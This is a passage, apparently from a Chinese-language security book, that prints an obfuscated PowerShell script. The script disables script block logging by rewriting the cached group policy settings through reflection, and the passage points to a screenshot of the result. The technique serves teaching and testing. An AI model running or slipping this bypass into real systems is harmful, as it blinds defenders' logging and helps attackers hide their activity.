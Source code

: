 ```
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils')."GetF`ie`ld"('cachedGro'+'upPolicySettings', 'N'+'onPu'+'blic,Static')
If ($GroupPolicyField) {
  $GroupPolicyCache = $GroupPolicyField.GetValue($null)
  Write-Host("Before")
  $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging'] | fl
  If ($GroupPolicyCache['ScriptB'+'lockLogging']) {
    $GroupPolicyCache['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging'] = 0
    $GroupPolicyCache['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging'] = 0
  }
  $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new()
  $val.Add('EnableScriptB'+'lockLogging', 0)
  $val.Add('EnableScriptB'+'lockInvocationLogging', 0)
  $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging'] = $val
  Write-Host("After")
  $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging'] | fl
}
```

运行上述命令后得到的结果如下：

![图 2.13 – PowerShell 脚本块日志记录绕过](img/B18964_02_13.jpg)
